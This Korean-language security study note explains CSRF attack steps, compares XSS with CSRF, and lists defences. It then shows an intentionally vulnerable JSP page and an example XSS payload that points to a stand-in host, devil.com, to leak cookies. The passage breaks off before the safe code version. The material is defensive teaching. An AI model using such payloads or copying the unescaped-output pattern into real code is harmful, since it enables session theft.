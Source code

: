 1. 사용자가 웹사이트에 로그인하여 정상적인 쿠키를 발급받음
2. 해커가 CSRF 공격 코드를 포함한 페이지를 특정 웹사이트에 등록
3. 사용자가 CSRF 스크립트가 포함된 페이지에 접근하면 CSRF 스크립트가 실행
4. CSRF 스크립트가 자동으로 공격 대상 웹사이트에 사용자의 세션 쿠키를 포함한 악성 요청을 전송
5. 웹 서버가 사용자의 권한을 이용해 요청을 수행

### XSS 와 CSRF의 차이점

| 공격 유형 | 특징 | 목적 |
| --- | --- | --- |
| XSS | 사용자의 브라우저에서 악성 JavaScript 실행 | 쿠키, 세션 정보 탈취 |
| CSRF | 사용자의 권한을 악용하여 서버에 요청 | 비밀번호 변경, 계좌 이체 등 악의적 요청 수행 |
- XSS를 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면, CSRF는 특정 웹사이트가 사용자의 웹 브라우저를 신용하는 상태를 노린 것이다.

## XSS와 CSRF의 방어

1. 입력을 모두 신뢰하지 않기
    - 모든 입력값(게시물, 첨부파일 등)을 신뢰하지 않고 검증해야함
2. 시큐어 코딩(Secure Coding) 적용
    - 입력을 검증하고 코드 수준에서 보안 대응을 적용하는 것
3. CC 인증을 획득한 도구 활용
    - 소프트웨어 보안 약점 진단원
    - 정적 분석 도구
    - 웹 취약점 스캐너
    - 모의해킹

### XSS 시큐어 코딩 - 안전한 코딩 기법

1. 일반적인 경우에는 사용자가 문자열에 스크립트를 삽입하여 실행하는 것을 막기 위해 사용자가 입력한 문자열에서 <, >, &r, “,” 등을 replace 등 문자 변환 함수나 메서드를 사용하여 &lt, &gt, &amp, &quot로 치환
    - 안전하지 않은 코드 예시
        
        ```html
        <%@page contentType="text/html" pageEncoding="UTF-8"%>
        <html>
        <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
        </head>
        <body>
        	<h1>XSS Sample</h1>
        	<%
        	<!-- 외부로 부터 이름을 받음 -->
        	String name = request.getParameter("name");
        	 %>
        	<!-- 외부로부터 받은 name이 그대로 출력-->
        	<p>NAME:<%=name%></p>
        </body>
        </html>
        ```
        
        - 외부 입력을 name값으로 특별한 처리과정없이 결과 페이지 생성에 사용
        - 악의적인 공격자가 name값에 `<script>url = "http://devil.com/attack.jsp;</script>` 를 넣으면 사용자의 권한으로 attack.jsp 코드가 수행되어 사용자의 쿠키 정보 유출 등 피해가 발생
    - 안전한 코드 예시
        